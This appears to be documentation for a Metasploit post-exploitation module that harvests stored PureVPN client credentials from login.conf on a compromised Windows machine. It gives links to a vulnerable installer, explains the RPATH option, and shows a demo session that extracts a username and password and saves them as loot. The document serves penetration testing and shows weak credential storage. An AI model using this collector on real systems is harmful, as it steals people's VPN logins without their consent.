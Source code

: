 # Introduction

This module allows you to collect login information for PureVPN client, specifically the `login.conf` file.

## Vulnerable Application

Versions before 6.0 should be vulnerable. For testing purposes, you may find the vulnerable version here:

Download links are provided for reference only and are not maintianed by the project. Utilize at your own risk!
* [https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m](https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m)
* [https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe](https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe)

## Options

**RPATH**

You may manually set the `RPATH` datastore option to allow the post module to find the installed
directory of PureVPN.

# Demo

```
msf5 post(windows/gather/credentials/purevpn_cred_collector) > rerun
[*] Reloading module...

[*] Searching PureVPN Client installation at C:\ProgramData
[*] Found PureVPN Client installation at C:\ProgramData
[*] Checking for login configuration at: C:\ProgramData\purevpn\config\
[*] Configuration file found: C:\ProgramData\purevpn\config\login.conf
[*] Found PureVPN login configuration on DESKTOP-AFMF2QU via session ID: 1
[+] Collected the following credentials:
[+]     Username: asfafsdas
[+]     Password: 23423423
[*] PureVPN credentials saved in: /Users/wchen/.msf4/loot/20181127162258_default_172.16.249.215_PureVPN.creds_515624.txt
[*] Post module execution completed
```
